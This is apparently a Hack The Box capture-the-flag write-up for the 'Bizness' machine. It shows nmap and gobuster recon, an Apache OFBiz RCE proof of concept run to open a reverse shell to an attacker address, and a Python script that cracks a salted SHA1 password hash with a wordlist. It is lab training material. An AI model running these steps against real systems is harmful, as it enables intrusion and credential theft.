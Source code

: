 ```yaml
---
title: "[HTB] Bizness"
date: 2024-05-30 00:43:08
tags: 
- [machine]
- [easy]
categories:
- [HTB]
---
```


<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    <img src="bizness.webp" title="Bizness" width="300px" height="300px" style="pointer-events: none;">
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS:</strong>
      <img src="linux.png" alt="Linux" width="20px" height="20px" style="margin-left: 5px;">
      <span style="margin-left: 5px;">Linux</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Easy</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>C4rm3l0</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>January 6, 2024</span>
    </div>
  </div>

</div>

## Recon

### Nmap

``` bash
$ nmap -sC -sV 10.10.11.252 -o nmap_scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-06 20:03 WET
Nmap scan report for 10.10.11.252
Host is up (0.062s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.89 seconds

```
| Port | Service |
|:----:|:-------:|
|  22  |   SSH   |
|  80  |   HTTP  |
|  443 |  HTTPS  |

### Gobuster

``` bash
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://bizness.htb/ -k --exclude-length 0
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://bizness.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          0
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/control              (Status: 200) [Size: 34633]

```

Found /control directory
![](Bizness/control.png)

## Foothold

### ofbiz

We now know ofbiz is running on the webserver.
Doing some googling, I found this [CVE](https://socprime.com/blog/cve-2023-49070-exploit-detection-a-critical-pre-auth-rce-vulnerability-in-apache-ofbiz/).
By using this [POC](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC) we can get a shell.

First make sure you are using openjdk 11
``` bash
$ update-alternatives --config java
```
![](Bizness/java.png)

Then start a listener and run the POC
```bash
$ python3 exploit.py https://bizness.htb/ shell 10.10.14.4:1337
```
![](Bizness/shell.png)

Now just get the user flag

## PrivEsc

### Hash Decrypt

Looking through ofbiz files, I came accross a directory with a huge list of .dat files.
![](Bizness/datfiles.png)

By running strings on this directory and grepping for the word "Password", we get a hashed password.

> Directory: /opt/ofbiz/runtime/data/derby/ofbiz/seg0
```bash
$ strings * | grep Password
```
![](Bizness/hash.png)

With the following python script, we can decrypt this hash.
``` python
import hashlib
import base64

# Function to hash a value using SHA1 with a provided salt
def sha1_hash_with_salt(value, salt):
    hash_obj = hashlib.sha1()
    hash_obj.update(salt.encode('utf-8'))
    hash_obj.update(value.encode('utf-8'))
    return hash_obj.digest()

# Function to check if a hashed value matches a target hash
def check_hash(wordlist_file, target_hash, salt):
    with open(wordlist_file, 'r', encoding='latin-1') as file:
        for line in file:
            password = line.strip()
            hashed_password = sha1_hash_with_salt(password, salt)
            encoded_hashed_password = base64.urlsafe_b64encode(hashed_password).decode('utf-8').replace('=', '')
            if encoded_hashed_password == target_hash:
                print(f'Found Password: {password}')
                return
        print('Password not found in the wordlist.')

# Define the target hash and salt
target_hash = 'uP0_QaVBpDWFeo8-dRzDqRwXQ2I'  # Remove "$SHA1$d$" and use only the hash value
salt = 'd'

# Replace wordlist_file with the path to your wordlist
wordlist_file = '/usr/share/wordlists/rockyou.txt'

# Call the function to check the hash against the wordlist
check_hash(wordlist_file, target_hash, salt)

```

![](Bizness/decrypt.png)

This is the root password, just su to root and get the root flag
![](Bizness/rootflag.png)